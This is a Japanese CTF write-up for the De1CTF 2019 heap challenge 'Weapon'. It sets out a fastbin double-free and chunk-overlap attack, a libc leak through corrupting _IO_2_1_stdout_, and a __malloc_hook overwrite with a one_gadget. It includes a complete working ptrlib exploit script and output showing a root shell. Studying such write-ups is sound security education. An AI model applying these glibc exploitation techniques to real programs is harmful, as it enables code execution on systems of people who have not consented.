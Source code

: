 # [pwn 219pts] Weapon - De1CTF 2019
64ビットバイナリで全部有効です。
```
$ checksec -f pwn
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes     0               2       pwn
```
create, delete, renameの機能があるヒープ系問題です。
サイズ0x60までmallocでき、最大10個のweaponを保存できます。
deleteにはシンプルなdouble freeがあります。
したがって、renameにはuse after freeがあります。
問題はshow機能が無いという点ですが、まぁ_IO_FILEをいじってlibcリークするんでしょうね。

とにかく、チャンクのサイズが0x60ではlibcのアドレスが取れないのでchunk overlapで大きなサイズをfreeしましょう。
fastbinではmalloc時にサイズチェックが走るので、偽チャンクのサイズはeditで後から変更するように注意が必要です。
```python
# chunk overlap
create(0x18, 0, "chunk 0") # 0x00
create(0x18, 1, "chunk 1") # 0x20
fake_chunk_1 = p64(0) + p64(0x21)  # target (0x21 to bypass size check)
fake_chunk_2 = b"A" * 0x30
fake_chunk_2 += p64(0) + p64(0x21) # target + 0x90
fake_chunk_3 = b"B" * 0x10         # target + 0xb0
create(0x58, 2, fake_chunk_1) # 0x40 (fake_chunk_1: 0x50)
create(0x58, 3, fake_chunk_2) # 0xa0 (fake_chunk_2: 0xb0)
create(0x58, 3, fake_chunk_3) # 0x100 (fake_chunk_3: 0x110)
delete(0)
delete(1)
delete(0)
delete(1)
create(0x18, 0, b'\x50') # fd --> fake_chunk
create(0x18, 0, p64(0))
create(0x18, 0, b'A')
create(0x18, 0, b'target')
rename(2, p64(0) + p64(0x91))
delete(0)

sock.interactive()
```

こんな感じでサイズ0x91の偽チャンクにlibcのアドレスが入りました。
```
pwndbg> x/16xg 0x5630fb2fd000
0x5630fb2fd000: 0x0000000000000000      0x0000000000000021
0x5630fb2fd010: 0x0000000000000000      0x0000000000000000
0x5630fb2fd020: 0x0000000000000000      0x0000000000000021
0x5630fb2fd030: 0x00005630fb2fd041      0x0000000000000000
0x5630fb2fd040: 0x0000000000000000      0x0000000000000061
0x5630fb2fd050: 0x0000000000000000      0x0000000000000091
0x5630fb2fd060: 0x00007fdad467fb78      0x00007fdad467fb78
0x5630fb2fd070: 0x0000000000000000      0x0000000000000000
```

次に、`_IO_2_1_stdout_`を改ざんする必要があります。
そこで、先程ヒープに書き込まれたmain_arenaのアドレスを`_IO_2_1_stdout_`の近くに向けます。
下の例では0x7f12289bd620に`_IO_2_1_stdout_`がありますが、`0x7f12289bd5dd`にチャンクサイズとして使えそうな領域があります。
```
0x7f12289bd5dd <_IO_2_1_stderr_+157>:   0x12289bc660000000      0x000000000000007f
0x7f12289bd5ed <_IO_2_1_stderr_+173>:   0x0000000000000000      0x0000000000000000
...
0x7f12289bd620 <_IO_2_1_stdout_>:       0x00000000fbad2887      0x00007f12289bd6a3
0x7f12289bd630 <_IO_2_1_stdout_+16>:    0x00007f12289bd6a3      0x00007f12289bd6a3
0x7f12289bd640 <_IO_2_1_stdout_+32>:    0x00007f12289bd6a3      0x00007f12289bd6a3
...
```
fastbinではmalloc時のサイズチェックがありますが、malloc(0x60)するときにfastbinが0x7f12289bd5ddに繋がっていれば落ちません。
これにより16分の1の確率で`_IO_2_1_stdout_`のwrite ptrを改ざんしてlibc leakできそうです。

```python
# libc leak
create(0x60, 0, b"\xdd\x25")

delete(4)
delete(3)
delete(4)
create(0x60, 0, b"\x50")
create(0x60, 0, p64(0))
create(0x60, 0, b'A')
create(0x60, 0, b'target')

fake_file = b'A' * 0x33
fake_file += p64(0xfbad1800)
fake_file += p64(0) * 3
fake_file += b'\x88'
create(0x60, 1, fake_file)

print(sock.recvuntil("1"))
```

ちなみにflagsを0xfbad1800にしたのは、0x1800だとすぐに出力される(らしい)からです。（なんかそういうフラグが定義されている。）
いい感じです！
```
$ python solve.py 
[+] __init__: Successfully connected to localhost:9999
b'\xe0\x18\xf5\xb2\x8c\x7f\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x001'
. create you weapon
2. delete you weapon
3. rename your weapon
choice >> [ptrlib]$
```

あとはdouble freeで`__malloc_hook`につなげればおしまい。

```python
from ptrlib import *

def create(size, index, name, newline=True):
    nl = "\n" if newline else ""
    sock.sendlineafter(">> "+nl, "1")
    sock.sendlineafter("weapon: ", str(size))
    sock.sendlineafter("index: ", str(index))
    sock.sendafter("name:"+nl, name)
    return

def delete(index, newline=True):
    nl = "\n" if newline else ""
    sock.sendlineafter(">> "+nl, "2")
    sock.sendlineafter("idx :", str(index))
    return

def rename(index, name):
    sock.sendlineafter(">> \n", "3")
    sock.sendlineafter("idx: ", str(index))
    sock.sendafter("content:\n", name)
    return

libc = ELF("./libc.so.6")
sock = Socket("localhost", 9999)
one_gadget = 0xf1147

# chunk overlap
create(0x18, 0, "chunk 0") # 0x00
create(0x18, 1, "chunk 1") # 0x20
fake_chunk_1 = p64(0) + p64(0x21)  # target (0x21 to bypass size check)
fake_chunk_2 = b"A" * 0x30
fake_chunk_2 += p64(0) + p64(0x31) # target + 0x90
fake_chunk_3 = b"B" * 0x10         # target + 0xb0
create(0x58, 2, fake_chunk_1) # 0x40 (fake_chunk_1: 0x50)
create(0x60, 3, fake_chunk_2) # 0xa0 (fake_chunk_2: 0xb0)
create(0x60, 4, fake_chunk_3) # 0x100 (fake_chunk_3: 0x110)
delete(0)
delete(1)
delete(0)
create(0x18, 0, b'\x50') # fd --> fake_chunk
create(0x18, 0, p64(0))
create(0x18, 0, b'A')
create(0x18, 0, b'target')
rename(2, p64(0) + p64(0x91))
delete(0)

# libc leak
create(0x60, 0, b"\xdd\x25")
create(0x60, 8, b"chunk 4")
create(0x60, 9, b"chunk 5")

delete(4)
delete(3)
delete(4)
create(0x60, 0, b"\x50")
create(0x60, 4, p64(0))
create(0x60, 5, b'A')
create(0x60, 0, b'target')

fake_file = b'A' * 0x33
fake_file += p64(0xfbad1800)
fake_file += p64(0) * 3
fake_file += b'\x88'
create(0x60, 1, fake_file)

libc_base = u64(sock.recv(8)) - libc.symbol("_IO_2_1_stdin_")
logger.info("libc base = " + hex(libc_base))

# fastbin attack
delete(8, newline=False)
delete(9, newline=False)
delete(8, newline=False)
create(0x60, 0, p64(libc_base + libc.symbol("__malloc_hook") - 0x23), newline=False)
create(0x60, 4, p64(0), newline=False)
create(0x60, 5, b'A', newline=False)
payload = b'A' * 0x13
payload += p64(libc_base + one_gadget)
create(0x60, 0, payload, newline=False)

sock.interactive()
```

できたー！
```
$ python solve.py 
[+] __init__: Successfully connected to localhost:9999
[+] <module>: libc base = 0x7f95c26fd000
[ptrlib]$ 
1. create you weapon
2. delete you weapon
3. rename your weapon
choice >> 1

wlecome input your size of weapon: [ptrlib]$ 18
input index: [ptrlib]$ 1
[ptrlib]$ ls
pwn
[ptrlib]$ whoami
root
[ptrlib]$
```

# 感想
こういうのを競技中にさくっと解けるようになりたい。

# 参考文献
[1] [https://github.com/De1ta-team/De1CTF2019/tree/master/writeup/pwn/Weapon](https://github.com/De1ta-team/De1CTF2019/tree/master/writeup/pwn/Weapon)
